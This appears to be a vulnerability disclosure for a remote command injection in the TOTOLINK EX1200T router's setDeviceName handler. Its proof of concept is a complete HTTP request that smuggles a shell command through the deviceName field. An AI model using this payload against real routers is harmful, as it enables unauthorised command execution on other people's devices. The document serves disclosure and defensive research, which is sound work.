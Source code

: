 # TOTOLINK EX1200T RCE

## Remote Command Injection Vulnerability Description

PRODUCT: TOTOLINK EX1200T V4.1.2cu.5215 (latest version)

There is a remote command injection in the function `setDeviceName` of the file `global.so` , we can control the`deviceName` to attack.

![image-20211022163220190](https://cdn.jsdelivr.net/gh/p1Kk/blogImg/Pictureimage-20211022163220190.png)

## PoC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.81 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,zh-TW;q=0.8
If-Modified-Since: Thu, 01 Jan 1970 00:00:03 GMT
Connection: close
Content-Length: 68

{"topicurl":"setting/setDeviceName",
"deviceMac":"1",
"deviceName":"1'\nps>/web_cste/test1\n'"}
```

![image-20211019162919271](https://cdn.jsdelivr.net/gh/p1Kk/blogImg/Pictureimage-20211019162919271.png)

